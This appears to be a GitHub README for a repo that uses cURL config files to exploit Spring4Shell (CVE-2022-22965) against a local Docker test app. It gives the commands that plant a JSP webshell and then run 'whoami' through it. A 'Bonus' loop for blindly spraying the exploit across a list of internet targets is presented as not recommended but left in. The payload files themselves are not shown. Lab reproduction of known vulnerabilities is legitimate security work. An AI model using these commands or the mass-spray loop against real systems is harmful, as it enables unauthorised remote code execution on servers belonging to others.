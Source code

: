 # Spring4Shell-cURL
cURL configs for exploiting Spring4Shell 


## Weaponzing cURL to Exploit Spring4Shell (CVE-2022-22965) 
I hadn't seen this method posted anywhere, just wanted to document. 99% of this is not my work. I just combined unique aspects into this repo. 


### Quick Setup

0. Clone the repo. You'll need Docker and cURL. If somehow you don't have cURL, download from: [https://everything.curl.dev/get](https://everything.curl.dev/get)
1. Deploy Docker container:  
`docker image build . && docker container run -it --publish 8080:8080 retro/stupidrumor`.
3. Issue the cURL command:  
`curl --config request.txt http://localhost:8080/stupidRumor_war/index`. This cURL command first reads from the `requests.txt` file. Inside the `request.txt` are things like the specific headers we need to exploit the vulnerable application. Noteably, the last line is `data-binary = "@body.txt"`, which contains our POST body. 
   
   **Note:** I've configured cURL to also send our requests through a transparent application proxy (Burp) in this case on `port 8081`, not `8080` as that's already taken by the Docker app. This is mostly for troubleshooting, but good to have in your Repeater nonetheless :)
   
3. Once the cURL command is sent, the webshell (`tomcatwar.jsp`) will be uploaded to the webroot (`stupidRumor_war/`), which means you can access it here in a browser if you want: `stupidRumor_war/tomcatwar.jsp?`
4. But we're using cURL, so now issue the second cURL request:  
`curl 'http://localhost:8080/stupidRumor_war/tomcatwar.jsp?pwd=j&cmd=whoami' --output -`. 

Bonus: I guess you could do something like the following to blindly spray webshells across the internet. Not recommended:  

`for i in $(cat targets.txt); do curl --config request.txt $i:$/yougottafixurethisout; done`. IYKYK. 


   
![image](https://user-images.githubusercontent.com/13237617/161151879-3cf326ad-6610-4bfe-992d-1d03279e6da5.png)

   
   
   
   
   
   
   
   
   
   
   
   ----------------
   Refs:  
[https://github.com/Retrospected/spring-rce-poc/blob/master/deploy.sh](https://github.com/Retrospected/spring-rce-poc/blob/master/deploy.sh)

